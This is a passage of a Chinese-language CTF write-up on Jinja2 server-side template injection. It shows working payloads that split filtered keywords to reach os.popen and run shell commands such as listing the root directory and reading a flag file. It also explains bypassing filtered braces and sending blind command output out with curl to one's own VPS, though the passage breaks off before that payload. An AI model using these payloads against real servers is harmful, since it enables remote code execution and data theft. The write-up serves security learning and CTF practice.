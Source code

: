 完蛋了了，很多方法被过滤了之后，几乎无法访问到我们所需要的方法。

到这里，我们本地机测试一下，看看有哪些方法我们可以用的：

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210525174721-3387fce6-bd3e-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210525174721-3387fce6-bd3e-1.png)

这里我们注意到了`__enter__`方法，查看其内容，发现其竟然有 `__globals__` 方法可用，也就是说这个`__enter__`方法与 `__init__` 方法一模一样。

这里摘抄下一段 stack overflow 的一段话

这里摘抄下一段 stack overflow 的一段话

> *   `__init__` (allocation of the class)
> *   `__enter__` (enter context)
> *   `__exit__` (leaving context)

因此 `__enter__` 仅仅访问类的内容，但这已经可以达到我们所需要的目的了。

构造 payload：

```
{{session['__cla'+'ss__'].__bases__[0].__bases__[0].__bases__[0].__bases__[0]['__subcla'+'sses__']()[256].__enter__.__globals__['po'+'pen']('ls /').read()}}


```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210525174722-3467f47c-bd3e-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210525174722-3467f47c-bd3e-1.png)

```
{{session['__cla'+'ss__'].__bases__[0].__bases__[0].__bases__[0].__bases__[0]['__subcla'+'sses__']()[256].__enter__.__globals__['po'+'pen']('cat /Th1s_is__F1114g').read()}}


```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210525174723-34f973de-bd3e-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210525174723-34f973de-bd3e-1.png)

没有回显的 SSTI
----------

当目标存在 SSTI 漏洞但是没有 payload 执行的回显时，我们可以使用 `os.popen` 和 `curl` 将执行结果外带出来。

例如下面这道题。进入题目后，会让你输入一个姓名然后将其输出：

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210525174724-35381530-bd3e-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210525174724-35381530-bd3e-1.png)

经测试目标存在 SSTI 漏洞，但是过滤了 `{{` 和 `}}`，我们可以使用 `{%print(......)%}` 的形式来绕过。

但是执行后却没有任何回显了，所以我们还得换一条路子。这里我们使用 `{% if ... %}1{% endif %}` 配合 `os.popen` 和 `curl` 外带数据的方法。

首先在自己 vps 上面开启监听：

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210525174724-3575b44e-bd3e-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210525174724-3575b44e-bd3e-1.png)

然后执行如下 payload 在根目录里面寻找 flag：
